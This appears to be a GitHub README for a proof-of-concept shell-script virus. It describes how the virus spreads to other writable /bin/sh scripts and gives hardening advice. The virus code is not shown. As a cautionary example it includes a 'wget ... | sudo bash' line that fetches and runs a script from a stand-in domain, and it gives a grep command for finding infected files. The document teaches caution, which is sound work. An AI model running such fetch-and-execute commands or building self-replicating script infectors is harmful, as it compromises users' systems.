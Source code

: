 # shell-virus-poc
Proof-of-Concept /bin/sh virus

!! DO NOT RUN THIS SCRIPT !!

!! FOR EDUCATIONAL USE ONLY !!

## What ##
This a short one-liner that will search and infect one other /bin/sh-script with itself.

## Why ##
While having a discussion about hardening a Linux server, making it more secure, a question was raised:
````
"Why can't you just remove all commands that will allow you to do something dangerous?"
````
My reply was:
````
"That is basically impossible, you could write a virus with just ls and grep."
````
Turned out I was wrong, you need ed, find, grep and head.

A more serious reason is to show that Linux is not, in any way, immune to viruses or malicious code. While package repositories that comes with your distribution most likely is safe, and the system at school/work where an administrator takes care of your system and you won't be able to do much more harm than to remove your own files, many people have Linux on their laptop/desktop or a Raspberry PI they play around with with root access.

Again, repositories are usualluy safe but be careful with source-code and scripts you download and NEVER EVER do stupid things like: 

````
wget -O - http://totaly.trustworthy.domain/install_script_not_malicious_winkwink.sh | sudo bash
````

My advice is to check the code you download if possible. Never mix important data like bitcoin-wallets, personal photos and other important files on the same machine you develop on. Use containers or virtual machines when you want to try something new. And avoid sudo. Yes, I know, everyone says that you should never log in as root and use sudo for tasks that require administrator access. But people are lazy and it leads to dangerous behaviour as in the example above. I prefer opening up a separate root-shell and then not use it, unless I absolutely have to. Instead of using a semi-privileged account that can access everything anyway.

## How do I run it on my Linux server ##
Don't. Run it someone elses server.

Just kidding.

Even it the script should be harmless it is pretty annoying. If you feel a need to test it, setup a virtual machine or container. Do not ever run it on a production machine, not even "Just to see if it works".

## I didn't listen and ran it, why is it so slow ##
It tries to find a writable shell-script that is not infected, starting at /. Unless you are root it will take a while until it finds your $HOME.

## People are angry, what do I do now? ##
Change name, move to another country.

...or, to find infected scripts
````
find / -type f -exec grep -l 'ShVirus' {} \; 2>/dev/null
````
(Simply remove the second line (containing ShVirus) in all those files and you should be ok.)

